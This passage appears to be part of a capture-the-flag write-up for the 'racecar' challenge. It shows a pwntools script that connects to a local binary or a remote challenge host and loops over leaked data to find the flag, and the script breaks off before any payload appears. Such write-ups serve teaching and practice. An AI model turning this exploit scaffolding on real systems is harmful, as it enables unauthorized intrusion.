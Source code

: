 ```python

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])

			host = "167.172.54.11"
			port = 30988

			s = remote(host, port)
```

Let's give it one more try.

![](Images/RunExploitRemotely2.png)

We successfully get the flag!

Here is the final Python script to exploit.

```python
from pwn import *
import codecs
import time

def ascii_to_hex(strings):
	# to convert from ASCII to hex
	return codecs.encode(strings.encode(), "hex").decode()

def main():
	isLocal = False

	suffix_flag_format = ascii_to_hex("}")

	suffix_is_found = False
	count = 1

	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		time.sleep(1)
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])
```
